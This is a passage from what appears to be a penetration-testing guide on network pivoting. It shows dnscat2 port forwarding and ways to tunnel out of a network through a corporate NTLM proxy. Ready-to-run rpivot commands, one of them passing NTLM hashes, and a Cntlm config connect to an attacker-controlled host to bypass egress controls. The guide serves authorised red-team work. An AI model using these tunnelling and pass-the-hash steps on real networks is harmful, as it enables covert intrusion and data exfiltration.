 history_size (session) => 1000
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command session (debian) 1>
```

Use ```listen [lhost:]lport rhost:rport``` command to forward a port:

```command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80```

This will bind port 8080 on the attacker’s machine and forward all connections to 10.0.0.20:80.


# Corporate HTTP proxy as a way out

HTTP proxies organization place for their employees to access external web-application present a good exfiltration opportunity given you got the right credentials ;)

## Rpivot

I already mentioned this tool in the NAT traversal section. It also supports connecting to the outside world via NTLM HTTP proxies. Server side command remains intact, use client-side command as follows:

```
python client.py --server-ip <rpivot_server_ip> --server-port 9999\
--ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
--username Alice --password P@ssw0rd
```

Or if you have LM:NT hashes instead of password:

```
python client.py --server-ip <rpivot_server_ip>\
--server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
--username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```

## Cntlm

[Cntlm](http://cntlm.sourceforge.net/) is the tool of choice for running any non-proxy aware programs over NTLM-proxy. Basically this tool authenticates against a proxy and binds a port locally that is forwarded to the external service you specify. This port bound does not require any authentication so you can use your tools directly (putty/ssh for example). It uses a config file for its operation. Here’s a barebones config example to forward port 443 (this port is most likely to be allowed through the proxy):

```
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attackers_machine>:443
```

Run it:

```cntlm.exe -c config.conf```

Or if you’re on Linux:

```./cntlm -c config.conf```

```